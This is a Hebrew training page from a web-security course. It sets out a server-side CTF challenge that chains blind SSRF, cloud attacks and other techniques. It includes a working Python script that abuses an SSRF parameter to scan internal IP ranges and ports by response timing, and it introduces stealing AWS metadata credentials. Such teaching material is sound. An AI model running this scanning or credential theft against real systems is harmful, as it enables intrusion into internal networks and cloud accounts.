

repository: AmitPinchasi/amittech · page: מחקר-אתרים-מתקדם/7 - תקיפות צד שרת מתקדמות/7.7 - אתגר CTF - צד שרת/7.7 - אתגר CTF - צד שרת - תרגיל/index.html · generator: mkdocs

# אתגר CTF - צד שרת

## סקירת האתגר

אתגר זה משלב את כל הנושאים שלמדנו בפרק 7: SSRF, תקיפת ענן, דסריאליזציה, העלאת קבצים, ו-SSTI. כל שלב מוביל לשלב הבא, ממש כמו תרחיש תקיפה אמיתי.

## שלב 1 - גילוי שירותים פנימיים עם Blind SSRF

### תיאור

מצאתם אפליקציית ווב שמאפשרת לבדוק האם אתר מסוים זמין. הפונקציונליות מוחזרת כ-"Available" או "Not Available" - בלי את תוכן התשובה.

### משימות

1. זהו את הפרמטר הפגיע ל-SSRF
2. אשרו שיש SSRF עם שרת חיצוני (Burp Collaborator או webhook.site)
3. סרקו את הרשת הפנימית כדי למצוא שירותים:
   - נסו כתובות IP בטווח `10.0.0.1-10.0.0.20`
   - נסו פורטים: 80, 8080, 3000, 5000, 8000, 9090
   - השתמשו בזמני תגובה לזהות שירותים חיים

```python
import requests
import time

TARGET = "http://challenge.ctf.com/check-url"

def scan_internal(ip, port):
    """Check whether an internal service exists"""
    internal_url = f"http://{ip}:{port}/"
    start = time.time()
    try:
        response = requests.get(
            TARGET,
            params={"url": internal_url},
            timeout=10
        )
        elapsed = time.time() - start

        # Short response time = service exists
        # Long response time = timeout = no service
        if elapsed < 3 and "Available" in response.text:
            print(f"[+] FOUND: {ip}:{port} ({elapsed:.2f}s)")
            return True
    except:
        pass
    return False

# Scan
for i in range(1, 21):
    for port in [80, 8080, 3000, 5000, 8000, 9090]:
        scan_internal(f"10.0.0.{i}", port)
```

4. תעדו את כל השירותים שמצאתם ומהם אנחנו נמשיך לשלב הבא

### רמז

חפשו שירות על פורט 80 שנותן תשובה מהירה. כנראה שזה שירות ווב פנימי.

## שלב 2 - גניבת הרשאות ענן דרך SSRF

### תיאור

גיליתם שהאפליקציה רצה על AWS EC2. השתמשו ב-SSRF כדי לגשת לשירות ה-Metadata.
